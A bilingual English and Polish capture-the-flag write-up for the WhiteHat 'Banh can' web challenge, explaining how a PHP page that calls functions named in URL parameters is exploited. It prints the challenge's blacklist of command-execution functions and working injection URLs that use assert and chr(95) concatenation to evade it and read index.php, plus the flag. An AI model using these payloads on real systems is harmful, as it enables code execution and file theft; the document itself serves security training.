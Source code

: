 # Banh can (web 100)

###ENG
[PL](#pl-version)

In the task we get a webpage with a form.
We can input some data in the form and submit it, which causes redirection to:

`http://web04.grandprix.whitehatvn.com/index.php?hello=our_input`

And it prints out `Hello our_input`.

There is also a hint in the source code that we can try calling function `hint`.

After a while we figure out that the parameter name is the function name and the value is string argument.
This means we can go to:

`http://web04.grandprix.whitehatvn.com/index.php?hint`

To call hint function.
This functions shows us that there is a blacklist for some inputs:

`$blacklist = array("system", "passthru", "exec", "read", "open", "eval", "backtick", "`", "_");`

We quickly notice that there is one function missing here, which enables us to call any PHP code from a string parameter - `assert`.

So we can call:

`http://web04.grandprix.whitehatvn.com/index.php?assert=phpinfo()`

And it shows us phpinfo, with list of all disabled PHP functions.
It seems there is no way of getting a shell, but maybe we don't need it.
We decide to read index.php just to see what exactly we're dealing with.

While `_` is blacklisted, we can just concatenate string with `chr(95)` instead so we call:

`http://web04.grandprix.whitehatvn.com/index.php?assert=assert(%27print(file%27.chr(95).%27get%27.chr(95).%27contents(%22index.php%22))%27)`

in order to call `assert('file_get_contents("index.php")')

and the flag is in the source code: `WhiteHat{36b32e1f18a0da66de3b9dd29db947155b35320f}`

###PL version

W zadaniu dostajemy stronę internetową z formularzem.
Możemy wpisać dane do formularz i po wysłaniu jesteśmy pod adresem:

`http://web04.grandprix.whitehatvn.com/index.php?hello=our_input`

I widzimy `Hello our_input`

W źródle strony jest też wskazówka żeby wywołać funkcje `hint`.

Po pewnym czasie doszliśmy do wniosku że nazwa parametru to nazwa funkcji a wartość to argument jako string.
To oznacza że możemy przejść pod:

`http://web04.grandprix.whitehatvn.com/index.php?hint`

aby wywołać funkcje 1hint()`.
Ta funkcja pokazuje nam, że pewne wejścia są blacklistowane:

`$blacklist = array("system", "passthru", "exec", "read", "open", "eval", "backtick", "`", "_");`

Szybko zauważamy że brakuje tutaj jednej funkcji, która pozwala wykonać dowolny kod PHP z parametru będącego stringiem - `assert`.

Możemy więc wołać:

`http://web04.grandprix.whitehatvn.com/index.php?assert=phpinfo()`

A to pokaże nam wynik wywołania phpinfo, z listą funkcji PHP które są wyłączone.
Wygląda na to że nie ma szans na zdobycie shella, ale może go nie potrzebujemy.
Postanowiliśmy pobrać index.php żeby sprawdzić co dokładnie dzieje się w skrypcie.

Co prawda `_` jest na blackliście, ale możemy po prostu skleić sobie stringa z `chr(95)` zamiast tego, więc wołamy:

`http://web04.grandprix.whitehatvn.com/index.php?assert=assert(%27print(file%27.chr(95).%27get%27.chr(95).%27contents(%22index.php%22))%27)`

Aby wywołać `assert('file_get_contents("index.php")')

I w źródle jest już flaga: `WhiteHat{36b32e1f18a0da66de3b9dd29db947155b35320f}`
